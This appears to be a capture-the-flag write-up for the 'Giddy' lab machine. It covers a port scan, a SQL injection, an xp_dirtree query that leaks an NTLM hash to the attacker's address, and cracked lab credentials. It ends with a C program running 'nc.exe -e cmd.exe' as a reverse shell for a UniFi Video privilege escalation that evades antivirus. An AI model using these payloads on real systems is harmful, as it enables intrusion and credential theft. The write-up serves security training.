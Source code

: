 # giddy



## nmap



PORT     STATE SERVICE       VERSION                                                                                                                                     
80/tcp   open  http          Microsoft IIS httpd 10.0                                                                                                                    
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| ssl-cert: Subject: commonName=PowerShellWebAccessTestWebSite
| Not valid before: 2018-06-16T21:28:55
|_Not valid after:  2018-09-14T21:28:55
|_ssl-date: 2020-09-04T08:24:55+00:00; +23s from scanner time.
| tls-alpn: 
|   h2
|_  http/1.1
3389/tcp open  ms-wbt-server Microsoft Terminal Services



## httpenumeration

- using gobuster found few directories

![image-20200904142203223](giddy.assets/image-20200904142203223.png)



- remote directory is for remote powershell connection

![image-20200904142307985](giddy.assets/image-20200904142307985.png)



- mvc is asp.net application homepage



## Microsoft mysql Server

- we find a sql injection in one of the link that take argument as product sub category

![image-20200904142627455](giddy.assets/image-20200904142627455.png)



- we can use sqlmap to dump databases
- we dont find anything useful from the database



## responder

- we can setup a responder and relay the hash of sql service to us
- we can xp_dirtree to make it go to our location
- since mssql supports stacked queries

```mssql
; use master; exec xp_dirtree '\\10.10.14.37\SHARE\sss';-- 
```

![image-20200904165004897](giddy.assets/image-20200904165004897.png)



- we got the hash now we need to decrypt it

![image-20200904165031276](giddy.assets/image-20200904165031276.png)



#### hashcat

- we got the credentials

![image-20200904165236770](giddy.assets/image-20200904165236770.png)

username					stacy

password					xNnWo6272k7x



## shell

- using this in the powershell remote session to see if it works

![image-20200904165551595](giddy.assets/image-20200904165551595.png)



- we got a shell



## post



- we see something called unifivideo in documents 
- in searcsploit we can see there is a vulnerability of local privilege escalation

![image-20200904170439367](giddy.assets/image-20200904170439367.png)



- there is a vulnerability in unifi-video that executes a task called taskkill.exe but it doesnt exist
- as this service is running as local system chances are we will get execution as NT Authority



- but there is a problem antivirus is installed and its removing our msfvenom payload

- so we create a custom **C code** that executes netcat and give us shell

```c
#include "stdlib.h"                                                                                        

   int main()
   {
       system("nc.exe -e cmd.exe 10.10.14.37 4444");
       return 0;
   }

```



- we will compile the code with mingw

```bash
x86_64-w64-mingw32-gcc taskkill.c -o taskill.exe
```

- we also need to export path variable where we will store our nc program
- we need to copy nc program in the directory where the program will run or give absolute path if we are saving it somewhere else

- then i stored nc in that directory now it is in environment path so it will be executed globally



- now we need to query for services for that we will go to registry as simple get-service query is not accessible

```powershell
Set-Location "HKLM:\SYSTEM\CurrentControlSet\Services"
Get-ChildItem . | Select-Object Name
```

![image-20200904202422035](giddy.assets/image-20200904202422035.png)



```powershell
ls | Where-Object { $_.Name -like '*UniFiVideoService'}
```

![image-20200904202530544](giddy.assets/image-20200904202530544.png)



```powershell
Stop-Service "Service Name"
Start-Service "Service Name"
```



#### NT AUTHORITY



![image-20200904203459526](giddy.assets/image-20200904203459526.png)


